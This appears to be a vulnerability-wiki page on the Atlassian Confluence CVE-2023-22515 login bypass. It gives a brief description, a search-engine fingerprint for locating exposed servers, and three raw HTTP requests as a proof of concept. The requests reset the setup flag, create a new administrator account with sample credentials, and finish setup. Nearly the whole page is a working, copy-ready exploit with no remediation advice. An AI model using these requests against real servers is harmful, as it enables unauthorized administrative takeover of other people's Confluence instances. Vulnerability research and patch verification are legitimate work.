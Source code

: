 # Atlassian Confluence server-info.action Login bypass vulnerability CVE-2023-22515

## Vulnerability Description

Atlassian Confluence is a software developed by Atlassian that is built on the collaboration software of the network. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Atlassian Confluence</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="ATLASSIAN-Confluence"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630488806824-a8205673-933b-434b-8050-abcde3ef3e97-9159064.png)

Verify POC

```php
GET /server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded
X-Atlassian-Token: no-check
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1697624725476-31dd0dd6-1d0a-4542-bafe-3ab5097a7bb5.png)

```php
POST /setup/setupadministrator.action HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
X-Atlassian-Token: no-check
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: */*
Content-Length: 126

username=bbvpe4mk&fullName=bbvpe4mk&email=bbvpe4mk@localhost&password=6wg6pm6sP123&confirm=6wg6pm6sP123&setup-next-button=Next
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1697624750262-a2d22c1e-b935-4ce4-9d39-105074f54914.png)

```php
GET /setup/finishsetup.action HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
X-Atlassian-Token: no-check
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: */*
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1697624779864-7545cb71-80b8-4698-ba28-fa62df4918df.png)